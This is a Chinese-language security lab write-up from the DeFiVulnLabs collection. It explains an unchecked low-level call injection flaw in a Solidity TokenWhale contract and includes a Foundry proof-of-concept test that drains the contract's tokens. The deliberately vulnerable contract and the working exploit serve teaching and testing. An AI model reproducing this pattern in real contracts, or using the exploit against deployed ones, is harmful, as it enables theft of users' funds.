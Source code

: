 # 未经检查的外部调用——调用注入  
[UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  

**名称：**  不安全的调用漏洞  

**描述：**  
在TokenWhale合约的approveAndCallcode函数中，存在一个漏洞允许执行带有任意数据的任意调用，从而导致潜在的安全风险和意外后果。  
该函数使用低级别的调用（_spender.call(_extraData)）来执行_spender地址的代码，而没有对提供的_extraData进行任何验证或检查。  
这可能导致意外行为、重入攻击或未经授权的操作。

本练习涉及到对合约进行低级别调用，其中输入和返回值未经检查。  
如果调用数据可控，就很容易引发任意函数执行 



**缓解措施：**   
尽量避免使用低级别的“call”。  

**参考**  
https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9  


**TokenWhale 合约：**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 百万
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* 授权然后调用合约代码*/
    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        //容易受到攻击的调用执行不安全的用户代码 
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  


**如何测试：**  
forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// 测试不安全调用的函数
function testUnsafeCall() public {
    // 设置环境变量
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice试图执行不安全的调用以从TokenWhaleContract转移资产
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // 将msg.sender更改为Alice地址
    vm.prank(alice);

    // Alice调用了approveAndCallcode函数，并传递了一个经过编码的数据，
    // 这个数据表示了对transfer函数的调用。
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // 不影响漏洞利用
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // 检查漏洞利用是否成功
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // 记录最终余额
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// 接收以太币的回退函数
receive() external payable {}
```  
**红色框：** 成功利用漏洞，成功掏空了TokenWhale合约。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fef522203-1293-43f6-bf50-746d2a4b8457%2FUntitled.png?table=block&id=442bc8fe-4714-4112-a892-725b88a7b32e&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
